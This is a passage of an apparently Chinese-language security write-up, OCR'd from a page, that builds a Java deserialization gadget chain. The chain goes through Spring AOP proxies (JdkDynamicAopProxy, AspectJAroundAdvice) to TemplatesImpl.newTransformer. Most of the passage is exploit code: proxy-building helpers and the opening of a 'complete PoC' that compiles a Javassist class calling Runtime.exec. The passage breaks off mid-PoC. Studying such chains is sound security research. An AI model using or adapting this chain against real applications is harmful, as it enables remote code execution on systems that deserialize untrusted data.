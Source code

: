 让 advisor实现MethodInterceptor和advice接口，并套第二层JdkDynamicAopProxy 动态代理

```
    public static Object getProxy2(Object obj, Class&lt;?&gt; clazz) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);

        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor(
                (Advice) getProxy1(obj, new Class[]{MethodInterceptor.class, Advice.class})
        );
        advisedSupport.addAdvisor(advisor);

        Constructor constructor = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;).getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        return java.lang.reflect.Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
    }
```

构造恶意的 `AspectJAroundAdvice` ，确保触发其 invoke 方法时能调用 `TemplatesImpl.newTransformer()`

```
        Method Tem_newTransformer = TemplatesImpl.class.getMethod(&#34;newTransformer&#34;);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(Tem_newTransformer, new AspectJExpressionPointcut(), factory);
```

让 `advice` 实现 Advice 接口

```
        Object proxy1 = getProxy2(advice, Advice.class);
```

综上，完整poc

```
package test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;

public class poc {
    public static void main(String args[]) throws Exception {

        ClassPool classpool = ClassPool.getDefault();
        classpool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classpool.makeClass(&#34;poc&#34;);
        String cmd = &#34;java.lang.Runtime.getRuntime().exec(\&#34;calc.exe\&#34;);&#34;;
```